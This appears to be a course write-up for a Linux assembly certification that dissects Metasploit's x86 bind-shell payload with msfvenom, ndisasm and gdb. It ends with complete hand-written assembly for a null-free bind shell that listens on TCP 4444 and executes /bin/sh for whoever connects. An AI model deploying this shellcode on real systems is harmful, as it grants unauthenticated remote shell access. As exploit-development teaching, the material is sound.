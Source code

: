 ```yaml
---
title: SLAE Exercise 1
tags: SLAE
key: 20190609
---
```



This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert Certification:
<http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/index.html>

Student ID: SLAE - 1470

All code can be found in:


### Assignment One: 
1. Creating Shellcode to Bind a Shell Over TCP
    - Binds to a port
    - Execs Shell on incoming connection
2. Port number should be easily configurable

In this assignment, we are going to create our own bind shell shellcode. To understand how this is going to work, we can take the one in msfvenom as example.

```
msfvenom -p linux/x86/shell_bind_tcp -f raw | sctest -vvv -Ss 10000
```
We will get a lot of output but the following part interests me

<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/SLAE/Ex1-1.JPG"/>

Here, the shellcode will try to create a socket and bind port 4444 (msfvenom default port) which is exactly the part that we would like to enhance. However, it didn't really tell us what kind of value is being pushed to the stack. It will be better for us to understand it from the assembly level with the help of ndisasm.

```
msfvenom -p linux/x86/shell_bind_tcp -f raw |ndisasm -u -
```
<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/SLAE/Ex1-2.JPG"/>

We can see that several hex values are being pushed to the stack. We can use xxd to help us to convert them back to ascii.
Remember since x86 uses little endian, its better for use to reverse the order first.

<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/SLAE/Ex1-3.JPG"/>

The first one doesn't look right to us while the second one is use to call /bin/sh for execve so we do not need to modify it. 
Lets examine what systemcall it is trying to use after the value '0200115C' being pushed into the stack.
The hex number 0x66 is being used which is equals to 102 in decimal value. Referring to /usr/include/i386-linux-gnu/asm/unistd_32.h, it is actually trying to use socketcall.
According to man socketcall, we know that there are different type of socket call and they all are defined as different number and being used as the first argument (Which will be ebx). These calls are defined inside /usr/include/linux/net.h

```c
#define SYS_SOCKET	1		/* sys_socket(2)		*/
#define SYS_BIND	2		/* sys_bind(2)			*/
#define SYS_CONNECT	3		/* sys_connect(2)		*/
#define SYS_LISTEN	4		/* sys_listen(2)		*/
#define SYS_ACCEPT	5		/* sys_accept(2)		*/
#define SYS_GETSOCKNAME	6		/* sys_getsockname(2)		*/
#define SYS_GETPEERNAME	7		/* sys_getpeername(2)		*/
#define SYS_SOCKETPAIR	8		/* sys_socketpair(2)		*/
#define SYS_SEND	9		/* sys_send(2)			*/
#define SYS_RECV	10		/* sys_recv(2)			*/
#define SYS_SENDTO	11		/* sys_sendto(2)		*/
#define SYS_RECVFROM	12		/* sys_recvfrom(2)		*/
#define SYS_SHUTDOWN	13		/* sys_shutdown(2)		*/
#define SYS_SETSOCKOPT	14		/* sys_setsockopt(2)		*/
#define SYS_GETSOCKOPT	15		/* sys_getsockopt(2)		*/
#define SYS_SENDMSG	16		/* sys_sendmsg(2)		*/
#define SYS_RECVMSG	17		/* sys_recvmsg(2)		*/
#define SYS_ACCEPT4	18		/* sys_accept4(2)		*/
#define SYS_RECVMMSG	19		/* sys_recvmmsg(2)		*/
#define SYS_SENDMMSG	20		/* sys_sendmmsg(2)		*/
```

Lets use gdb to examine the value of ebx of that systemcall.

<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/SLAE/Ex1-4.JPG"/>

0x2 (SYS_BIND) is assigned to ebx before socketcall is called again. As an additional reference, ebx is set to 0x1,0x2,0x4,0x5 along the shellcode which matches our findings in Libemu.
As now we understand that the value 0x2 equals to bind(), the struture of socketcall for bind should look like this
```c
socketcall( 0x2, bind(int sockfd, const struct sockaddr *addr, socklen_t addrlen));
```
According to the shellcode from msfvenom, the rest of the arguments should by pointed by ecx, again, we can use gdb to study the values

<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/SLAE/Ex1-5.JPG"/>

With these value, we can fill in values on our own
```c
socketcall( 0x2, bind(0x3, 0xbffff324, 0x10));
```
Since 0xbffff324 is the address pointed to the value of sockaddr = 0200115C, according to man bind()
```c
    struct sockaddr {
        sa_family_t sa_family;
        char        sa_data[14];
    }
```
How this sockaddr work is that we need to assign a value for sa_family which is usually 0x2 while the sa_data[14] will be in a port+ip address format.
Since we didn't specify the ip address, the value will be 0x0 and port 4444 in hex will be 115C.

Up till now, it is really obvious that we can just copy the shellcode from msfvenon, convert our desire port to hexadecimal and reverse it to configure our bind shell. However, what's the point of learning if we just use this existing shellcode? Also, this shellcode contains a null byte which we do not want, as such, we are going to write our own bind shell shellcode.

Bind Shell Proof of Concept
```asm
global _start

section .text

_start:
;int socket(int domain, int type, int protocol);
	xor ebx,ebx
	push ebx
	inc ebx
	push ebx
	push byte +0x2
	mov ecx,esp
	mov al,0x66
	int 0x80

;int bind(int sockfd, const struct sockaddr *addr,socklen_t addrlen);
	pop ebx
	pop esi
	push edx
	push word 0x5c11
	push word 0x02
	push byte +0x10
	push ecx
	push eax
	mov ecx,esp
	push byte +0x66
	pop eax
	int 0x80

;int listen(int sockfd, int backlog);
	mov [ecx+0x4],eax	;address for sockaddr
	mov bl,0x4		;socket call for listen
	mov al,0x66
	int 0x80

;int accept(int sockfd, struct sockaddr *addr, socklen_t *addrlen);
	inc ebx			;increase ebx to 0x5 to call accept
	mov al,0x66
	int 0x80
;int dup2(int oldfd, int newfd, int flags);
	xchg eax,ebx
	pop ecx
	mov cl, 0x2
loop:
	mov al, 0x3f
	int 0x80
	dec ecx
	jns loop

;int execve(const char *filename, char *const argv[],char *const envp[]);
	push dword 0x68732f2f
	push dword 0x6e69622f
	mov ebx,esp
	push eax		;eax was set to 0x0 after dup2 and we can use it directly
	push ebx		
	mov ecx,esp
	mov al,0xb
	int 0x80
```